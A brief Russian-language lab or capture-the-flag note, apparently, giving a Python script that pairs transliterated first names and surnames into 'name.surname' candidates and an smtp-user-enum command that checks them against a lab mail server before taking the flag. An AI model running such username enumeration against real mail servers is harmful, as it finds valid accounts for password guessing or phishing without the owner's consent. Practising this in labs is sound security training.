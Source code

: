
Создадим небольшой скрипт на питоне который прочитает файлы, возьмет первые 150 строк. объединит первый файл (имена) со вторым (фамилии), разделит точкой и затем сохранит результат в новый файл
```
with open('russian_trans_names.txt', 'r', encoding='utf-8') as f1:
    file1_words = [line.strip() for line in f1.readlines()[:150]]

with open('russian_trans_surnames.txt', 'r', encoding='utf-8') as f2:
    file2_words = [line.strip() for line in f2.readlines()[:150]]
with open('combined_file.txt', 'w', encoding='utf-8') as combined_file:
    for word1 in file1_words:
        for word2 in file2_words:
            combined_word = f"{word1}.{word2}"
            combined_file.write(combined_word + '\n')


```

smtp-user-enum -M RCPT -U ~/Downloads/YAWR-master/brute/russian_names/combined_file.txt -t 10.10.0.23 -D company.local 

забираем флаг